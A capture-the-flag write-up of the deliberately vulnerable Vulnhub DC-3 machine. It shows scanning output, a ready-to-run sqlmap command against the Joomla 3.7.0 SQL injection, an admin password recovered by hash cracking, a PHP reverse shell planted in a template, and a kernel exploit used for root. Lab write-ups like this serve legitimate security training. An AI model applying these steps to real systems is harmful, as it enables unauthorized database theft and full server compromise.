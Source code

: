 ```yaml
---
"title": "Vulnhub - DC 3"
"date": 2019-11-16
"tags": ["joomla", "easy", "php", "kernel_exploit", "sqli"]
"keywords": ["joomla", "easy", "php", "kernel_exploit", "sqli"]
"categories": "Vulnhub"
"author": "Ghostbyt3"
"description": "We are going to pwn DC 3 by DCAU7 from Vulnhub"
"featured_image": "/img/dc3/1.1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc3/1.1.png)
We are going to pwn DC 3 by DCAU7 from Vulnhub


## Description
>DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).
If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.


Download Link: [https://www.vulnhub.com/entry/dc-3,312/](https://www.vulnhub.com/entry/dc-3,312/)


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:BE:4C:95 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/25 19:06:03 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htpasswd (Status: 403)
/cache (Status: 301)
/bin (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/index.php (Status: 200)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
===============================================================
2019/11/25 19:06:05 Finished
===============================================================
```


![Untitled](/img/dc3/1.png)

It is ```JoomlaCMS``` so i tried using [droopescan](https://github.com/droope/droopescan) to find any vulnerable plugins or versions
![Untitled](/img/dc3/2.png)

## Finding the version is vulnerable

We can also use Metasploit to find Joomla's Version
![Untitled](/img/dc3/3.png)

> Joomla Version 3.7.0

I found there is an SQL INjection for this version.

>https://www.exploit-db.com/exploits/42033

### SQL Injection

``` sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] ```

![Untitled](/img/dc3/4.png)

![Untitled](/img/dc3/5.png)

It shows 5 Databases so lets enumerate the database by using the same command.[br/](br/)
![Untitled](/img/dc3/6.png)

>-D = To denote which database

![Untitled](/img/dc3/7.png)

It looks like ``#_users`` is interesting

![Untitled](/img/dc3/8.png)

```

-T = Used to denote which table
-C = What are the things we need from the table
--dump = To display all

```
![Untitled](/img/dc3/9.png)

We got a hash for admin so lets try it with john 

![Untitled](/img/dc3/10.png)

It Shows the password is ``snoopy``

Lets Try login 

![Untitled](/img/dc3/11.png)

## Getting Shell 

We need to get reverse shell since there is no other ports running we need to get reverse shell from the webpage

![Untitled](/img/dc3/12.png)

Templates -> Templates -> Beez3 Details and Files -> Index.php
I added my PHP Reverse Shell.

Once added I clicked on Template Preview…
and I got the shell
![Untitled](/img/dc3/13.png)

## Privilege Escalation

It looks like Kernel is outdated[br/](br/)
![Untitled](/img/dc3/14.png)

Found there is an exploit from searchsploit

![Untitled](/img/dc3/15.png)


> https://www.exploit-db.com/exploits/39772

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip 


I uploaded the code into the machine and did according to the instruction.

![Untitled](/img/dc3/16.png)

First ``./compile.sh``
And ``./doubleput``

![Untitled](/img/dc3/17.png)
![Untitled](/img/dc3/18.png)

``Flag``

![Untitled](/img/dc3/19.png)

Got ROOT!!









